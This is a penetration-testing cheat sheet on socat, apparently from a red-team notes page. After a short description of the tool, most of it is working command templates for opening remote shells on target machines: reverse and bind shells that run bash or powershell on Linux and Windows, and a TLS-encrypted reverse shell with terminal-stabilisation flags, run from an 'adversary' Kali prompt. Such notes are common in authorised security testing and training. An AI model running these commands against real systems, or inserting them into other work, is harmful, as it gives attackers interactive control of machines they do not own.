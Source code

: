 # Socat

* [Socat](https://www.kali.org/tools/socat/) (for SOcket CAT) establishes two bidirectional byte streams and transfers data between them. Data channels may be files, pipes, devices (terminal or modem, etc.), or sockets (Unix, IPv4, IPv6, raw, UDP, TCP, SSL). It provides forking, logging and tracing, different modes for interprocess communication and many more options.

It can be used, for example, as a TCP relay (one-shot or daemon), as an external socksifier, as a shell interface to Unix sockets, as an IPv6 relay, as a netcat and rinetd replacement, to redirect TCP-oriented programs to a serial line, or to establish a relatively secure environment (su and chroot) for running client or server shell scripts inside network connections. Socat supports sctp as of 1.7.0.

[Versions for all major platforms are available](https://github.com/3ndG4me/socat/releases).

## Socat reverse shells

A basic reverse shell listener in `socat`:

    adversary@kali:~# socat TCP-L:<port-number> -

To connect back to the listener on a Linux target system:

    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

To connect back to the listener on a Windows target system:

    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

## Socat bind shells

Set up a listener on a Linux target:

    socat TCP-L:<PORT> EXEC:"bash -li"

Set up a listener on a Windows target:

    socat TCP-L:<PORT> EXEC:powershell.exe,pipes

The `pipes` argument interfaces between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target machine, connect to the waiting listener with:

    socat TCP:<TARGET-IP>:<TARGET-PORT> -

For a fully stable Linux tty reverse shell, use the `tty` technique.

## Socat encrypted shells

Setting up an OPENSSL-LISTENER using the `tty` technique and a PEM file called `encrypt.pem`:

```text
adversary@kali:~# openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
adversary@kali:~# cat shell.key shell.crt > encrypt.pem
adversary@kali:~# socat OPENSSL-LISTEN:<port-number>,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

Connecting back to this listener from the target machine:

```text
socat OPENSSL:<IP address attack machine>:<port-number>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

* `pty` allocates a pseudoterminal on the target -- part of the stabilisation process
* `stderr` makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* `sigint` passes any `Ctrl+C` commands through into the sub-process, allowing for `kill` commands inside the shell
* `setsid` creates the process in a new session
* `sane` stabilises the terminal, attempting to "normalise" it.
